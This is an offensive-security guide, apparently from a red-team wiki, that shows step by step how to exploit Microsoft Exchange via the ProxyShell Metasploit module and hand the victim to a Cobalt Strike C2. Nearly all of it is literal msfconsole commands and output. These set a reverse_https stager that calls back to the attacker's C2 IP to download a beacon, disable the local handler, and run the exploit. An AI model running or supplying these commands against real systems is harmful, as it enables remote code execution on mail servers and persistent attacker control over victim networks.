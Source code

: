 ```yaml
---
author(s):
  - Sebastian Dante Alexander
tags:
  - initial-access
  - exploitation
  - cobalt-strike
  - windows
credits:
  - rsmudge
---
```

# Cobalt Strike

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

This guide is fairly easy to exploit a vulnerable service to establish connection to cobalt strike. This should work with most exploits without needing to reinvent the wheel. We'll be using proxyshell as an example.

```
msf6 > search -u exchange_proxyshell_rce  
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
  
Matching Modules
================

  #  Name                                          Disclosure Date  Rank       Check  Description
  -  ----                                          ---------------  ----       -----  -----------
  0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/exchange_proxyshell_rce
[*] Using exploit/windows/http/exchange_proxyshell_rce
```

Depending on the listener (or shell handler) type. Set the payload to `windows/x64/meterpreter/reverse_https` for an HTTPS beacon network traffic. If you're using HTTP beacon network traffic without TLS (encrypted packets) then set the payload to `windows/x64/meterpreter/reverse_http`. You're not really delivering `meterpreter` session.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_proxyshell_rce) > options

Module options (exploit/windows/http/exchange_proxyshell_rce): 

  Name              Current Setting  Required  Description
  ----              ---------------  --------  -----------
  EMAIL                              no        A known email address for this organization
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             443              yes       The target port (TCP)
  SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT           8080             yes       The local port to listen on.
  SSL               true             no        Negotiate SSL/TLS for outgoing connections
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                            no        The URI to use for this exploit (default is random)
  UseAlternatePath  false            yes       Use the IIS root dir as alternate path
  VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
  LHOST                      yes       The local listener hostname
  LPORT     8080             yes       The local listener port
  LURI                       no        The HTTP Path


Exploit target:

  Id  Name
  --  ----
  0   Windows Powershell
```

Set the target's IP address.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set rhosts <target_IP>
rhosts => <target_IP>
```

Specify the C2's IP address and port. This will receive from a #metasploit-framework stager. You’re telling it in this case to generate an HTTPS stager to download a payload.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lhost <cobalt_strike_C2_IP>
lhost => <C2_IP>
msf6 exploit(windows/http/exchange_proxyshell_rce) > set lport 443
lport => 443
```

Set `DisablePayloadHandler` and `PrependMigrate` to the boolean values accordingly in this setup.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PrependMigrate true
PrependMigrate => true
msf6 exploit(windows/http/exchange_proxyshell_rce) > set AllowNoCleanup true
AllowNoCleanup => true
```

Exploit the target and you should receive a beacon callback on your C2.

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > run
```

---
## References

### HelpSystems

- [HelpSystems: Metasploit to Beacon Initial Foothold](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/init-access_client-side-exploits.htm)

### MITRE

- [MITRE T1190: Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
